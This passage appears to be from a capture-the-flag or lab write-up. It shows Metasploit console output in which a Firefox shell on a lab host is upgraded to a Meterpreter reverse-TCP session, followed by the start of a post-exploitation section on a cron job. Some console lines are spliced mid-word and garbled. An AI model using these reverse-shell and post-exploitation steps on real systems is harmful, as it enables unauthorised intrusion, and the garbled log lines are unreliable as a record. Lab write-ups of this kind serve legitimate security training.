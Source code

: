 	[!] SESSION may not be compatible with this module:
	[!]  * incompatible session platform: firefox
	[*] Upgrading session ID: 1
	[*] Starting exploit/multi/handler
	[*] Started reverse TCP handler on 192.168.110.1:4433 
	[*] Sending stage (984904 bytes) to 192.168.110.151
	[*] Meterpreter session 2 opterpreter > sysinfo
	Computer     : 192.168.110.151
	OS           : Debian 8.5 (Linux 3.16.0-4-amd64)
	Architecture : x64
	BuildTuple   : i486-linux-musl
	Metened (192.168.110.1:4433 -> 192.168.110.151:53816 ) at 2021-11-30 16:02:31 +0100
	[*] Command stager progress: 100.00% (773/773 bytes)
	[*] Post module execution completed
	msf6 post(multi/manage/shell_to_meterpreter) > sessions

	Active sessions
	===============

	  Id  Name  Type                   Information              Connection
	  --  ----  ----                   -----------              ----------
	  1         shell firefox/firefox                           192.168.110.1:4444 -> 192.168.110.151:51644  (192.168.110.151)
	  2         meterpreter x86/linux  peter @ 192.168.110.151  192.168.110.1:4433 -> 192.168.110.151:53816  (192.168.110.151)

	msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 2
	[*] Starting interaction with 2...

	meterpreter > sysinfo
	Computer     : 192.168.110.151
	OS           : Debian 8.5 (Linux 3.16.0-4-amd64)
	Architecture : x64
	BuildTuple   : i486-linux-musl
	Meterpreter  : x86/linux


# Post exploit

## Unlock user peter

### crontab 

	$ crontab -l
	*/4 * * * * cd /home/peter && ./firefox.sh
	
	cat firefox.sh
	xvfb-run --auto-servernum --server-num=1 /opt/firefox/firefox http://192.168.110.151/blog/members.html

### File .bashrc
